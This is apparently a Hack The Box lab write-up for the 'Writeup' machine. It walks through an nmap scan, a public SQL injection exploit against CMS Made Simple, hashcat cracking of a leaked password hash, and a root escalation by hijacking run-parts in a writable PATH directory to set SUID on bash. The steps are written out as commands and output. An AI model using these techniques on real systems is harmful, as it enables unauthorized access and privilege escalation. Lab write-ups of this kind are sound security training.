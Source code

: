# HTB - Writeup

#### Ip: 10.129.134.255
#### Name: Writeup
#### Rating: Easy

----------------------------------------------------------------------

![Writeup.png](../assets/writeup_assets/Writeup.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.10.138
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-04 15:30 CDT
Nmap scan report for 10.10.10.138
Host is up (0.068s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 372e1468aeb9c2342b6ed992bcbfbd28 (ECDSA)
|_  256 93eaa84042c1a83385b35600621ca0ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.12 seconds
```

Checking out the page on port 80 it looks like a blog in the making, but doesn't yet contain any real content.

![writeup_site.png](../assets/writeup_assets/writeup_site.png)

There is a note about DOS protection in place, so I'll hold off on directory fuzzing and Nikto for now.

Nmap catches that there is a robots/txt page listing `/writeup` as a disallowed entry.

Navigating to that page we find a couple of HTB writeups:

![writeup_writeup.png](../assets/writeup_assets/writeup_writeup.png)

Using Wappalyzer we can see the site is running CMS Made Simple.

### Exploitation

Looking for public expploits I find: https://gist.github.com/kriss-u/321f0418778697e2ec919f04664ceb4b

Lets give the exploit a shot:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ python cms_made_simple_sqli.py -u http://10.10.10.138/writeup/ 
```

Nice, the exploit was able to get jkr's password hash:

![writeup_pw.png](../assets/writeup_assets/writeup_writeup_pw.png)

Lets add the hash and the salt to a file called jkr_hash and attempt to crack it:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ cat >> jkr_hash
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ hashid jkr_hash                                    
--File 'jkr_hash'--
Analyzing '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807'
[+] MD5 
```

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ hashcat jkr_hash /usr/share/wordlists/rockyou.txt -m 20
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```
Awesome, Hashcat was able to crack this for us: `jkr:raykayjay9`

From here we can SSH in and grab the user.txt flag:

![writeup_user_flag.png](../assets/writeup_assets/writeup_user_flag.png)

### Privilege Escalation

Loading linpeas we see that we are able to write to `/usr/local/bin` and `/usr/local/games` which are also in our `$PATH`. This is definitiely uncommon enough to warrant looking into.

![writeup_lp.png](../assets/writeup_assets/writeup_lp.png)

Lets load up pspy64 and get it listening for processes and then SSH in again in a separate shell:

![writeup_cron.png](../assets/writeup_assets/writeup_cron.png)

Interesting, it appears that once we SSH'd in, the root user issues a cronjob using `run-parts`, but luckily for us it does not use the absolute path. We should be able to hijack this by writing our own malicious run-parts file in `/usr/local/bin` and then it will execute as the root user when an SSH connection is opened. Lets try it:

```
jkr@writeup:/usr/local/bin$ echo "/bin/chmod 4755 /bin/bash" > /usr/local/bin/run-parts
jkr@writeup:/usr/local/bin$ chmod +x run-parts
<Start a new SSH session here>
jkr@writeup:/usr/local/bin$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=1000(jkr) gid=1000(jkr) euid=0(root) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
bash-4.4# hostname
writeup
```

Nice that worked! You can see above I set the SUID bit on bash (something only the root user could do), and when I started a new SSH session the root cronjob executed the script and I was able to drop into a root shell.

![writeup_root_flag.png](../assets/writeup_assets/writeup_root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------------------
